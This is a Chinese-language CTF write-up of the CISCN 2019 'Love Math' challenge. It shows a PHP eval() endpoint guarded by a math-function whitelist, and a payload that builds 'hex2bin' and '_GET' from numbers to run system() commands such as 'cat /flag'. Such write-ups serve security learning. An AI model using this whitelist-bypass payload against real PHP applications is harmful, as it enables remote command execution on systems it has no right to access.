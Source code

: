 # CISCN 2019

## 0x01 Love Math

关键词：敏感函数，代码执行

* 进入界面后发现源代码：

* ```
  <?php
  error_reporting(0);
  //听说你很喜欢数学，不知道你是否爱它胜过爱flag
  if(!isset($_GET['c'])){
      show_source(__FILE__);
  }else{
      //例子 c=20-1
      $content = $_GET['c'];
      if (strlen($content) >= 80) {
          die("太长了不会算");
      }
      $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
      foreach ($blacklist as $blackitem) {
          if (preg_match('/' . $blackitem . '/m', $content)) {
              die("请不要输入奇奇怪怪的字符");
          }
      }
      //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
      $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
      preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);  
      foreach ($used_funcs[0] as $func) {
          if (!in_array($func, $whitelist)) {
              die("请不要输入奇奇怪怪的函数");
          }
      }
      //帮你算出答案
      eval('echo '.$content.';');
  }
  ```

  可见这是只允许c中传入数学函数的一个题目

* ### 延伸知识：php敏感函数

* ```
  base_convert(37907361743,10,36) ==>"hex2bin"
  dechex(1598506324) ==>"5f474554"
  $pi = hex2bin("5f474554") ==>$pi="_GET"
  ```

  由于这三项基本信息，我们可以构造一个payload：

  ```
  c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi){pi}(($$pi){abs})&pi=system&abs=ls /
  ==> c=$pi=_GET;($_GET){pi}($_GET){abs}&pi=system&abs=ls /
  ```

  即效果为执行`system(ls /)`语句

  进一步构造payload：

  ```
  c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi){pi}(($$pi){abs})&pi=system&abs=cat /flag
  ```

  ![CIS1](https://raw.githubusercontent.com/Heart-1ess/Heart_1ess-s-CTF-Note/master/assets/CIS1.png)
